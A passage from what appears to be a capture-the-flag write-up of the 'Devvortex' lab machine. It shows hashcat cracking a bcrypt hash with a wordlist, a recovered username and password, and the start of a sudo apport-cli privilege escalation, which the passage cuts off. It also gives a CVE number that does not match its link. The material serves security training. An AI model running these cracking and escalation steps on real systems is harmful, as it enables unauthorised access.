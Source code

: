 `$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12`

Let's crack it.

```bash
.\hashcat.exe -m 3200 -a 0 .\hash_\lion.txt .\hash_\rockyou.txt
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
```

`logan:tequieromucho`

We can SSH as logan:

## Privilege Escalation

```bash
logan@devvortex:~$ cat user.txt

logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli

```

We have a tool for privilege escalation. 

A privilege escalation attack was found in apport-cli 2.26.0 and earlier which is similar to CVE-2023-26604. If a system is specially configured to allow unprivileged users to run sudo apport-cli, less is configured as the pager, and the terminal size can be set: a local attacker can escalate privilege. It is extremely unlikely that a system administrator would configure sudo to allow unprivileged users to perform this class of exploit.

[CVE-2023-26604](https://nvd.nist.gov/vuln/detail/CVE-2023-1326)

All we have to do is run `apport-cli` with `sudo` on some file.

```bash
sudo /usr/bin/apport-cli --file-bug

*** What kind of problem do you want to report?


Choices:
  1: Display (X.org)
  2: External or internal storage devices (e. g. USB sticks)
  3: Security related problems
  4: Sound/audio related problems
  5: dist-upgrade
  6: installation
  7: installer
  8: release-upgrade
  9: ubuntu-release-upgrader
  10: Other problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/9/10/C): 1


*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.

*** What display problem do you observe?
```